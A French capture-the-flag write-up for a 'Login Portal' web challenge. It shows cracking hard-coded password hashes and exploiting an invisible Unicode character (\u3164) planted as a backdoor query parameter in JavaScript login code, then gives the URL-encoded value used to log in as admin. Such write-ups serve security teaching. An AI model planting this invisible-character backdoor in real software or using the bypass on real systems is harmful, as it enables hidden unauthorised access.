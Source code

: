 ### WEB / Login Portal

![consignes](img/consignes.png)


### Tour du site

Le site comprends deux pages, l'une pour s'authentifier, l'autre nous affiche le code source du site...

![cap1](img/cap1.png)

![cap1](img/cap2.png)



Notre attention est vite attirée par le mécanisme implémenté pour l'authentification, et les hash de mots de passe codés en dur (never do that !)

Un tour sur crackstation pour récupérer :
- alice:alice
- bob:bob

Reste celui de l'admin ....


### Etude du code

Un détail peu rapidement sauter aux yeux ... quelques virgules supplémentaires qui :
1 - rendent le code moche
2 - devrait faire sonner tout bon interpréteur

```javascript
const { username, password,ㅤ} = req.query;
...
const validUsers = [
    'admin:W7tgTzWTFBDedWf+OhrrqfLgYAh7blYh0RuhakKLKqQ=',
    'alice:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=',
    'bob:WsOfjLfA9phADg4FnzcUrtKOXc4hByHUsBpX02PvrSM=',ㅤ
];

```

Ceci dit, je ne connais pas javascript, donc il m'a fallut quelques recherches Google pour en trouver l'explication :


https://certitude.consulting/blog/en/invisible-backdoor/


Ainsi il semble qu'un caractère invisible a été inséré dans les paramètres de requête attendus et dans la liste des utilisateurs, ce qui donne :


```javascript
const { username, password, BACKDOORㅤ} = req.query;
...
const validUsers = [
    'admin:W7tgTzWTFBDedWf+OhrrqfLgYAh7blYh0RuhakKLKqQ=',
    'alice:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=',
    'bob:WsOfjLfA9phADg4FnzcUrtKOXc4hByHUsBpX02PvrSM=',
    BACKDOORㅤ
];

```


Nous pouvons alors "composer" un nouvel utilisateur, ou plutôt un autre mot de passe pour l'admin :

`admin:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=` --> `admin:alice`

Puis l'utiliser pour nous connecter.

Pour cela, en transcodant le caractère invisible `\u3164` en héxa `%E3%85%A4`

![cap1](img/cap3.png)

